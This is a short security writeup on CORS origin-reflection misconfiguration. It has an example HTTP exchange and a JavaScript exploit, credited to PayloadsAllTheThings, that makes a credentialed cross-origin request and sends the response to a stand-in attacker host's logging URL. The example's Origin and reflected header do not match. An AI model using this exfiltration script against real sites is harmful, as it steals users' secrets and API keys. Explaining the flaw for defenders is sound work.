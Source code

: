 # Origin Reflection

## Description

Host allows any origin to make requests to it by blindly reflecting the Origin header value in `Access-Control-Allow-Origin headers` in responses, which means any website can read its secrets by sending cross-origin requests.

**Severity**: High

## Exploit 
Make requests from any domain you control.

### Example 
**Vulnerable Implementation** 
```http
GET /endpoint HTTP/1.1
Host: victim.example.com
Origin: https://evil.com
Cookie: sessionid=... 

HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://hacker.com
Access-Control-Allow-Credentials: true 

{"[private API key]"}
```

**Exploit**  
This exploit requires that the respective JS script is hosted at `hacker.com`
```javascript
var req = new XMLHttpRequest(); 
req.onload = reqListener; 
req.open('get','https://victim.example.com/endpoint',true); 
req.withCredentials = true;
req.send();

function reqListener() {
    location='//atttacker.net/log?key='+this.responseText; 
};
```

[code source](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/CORS%20Misconfiguration#vulnerable-example-origin-reflection)
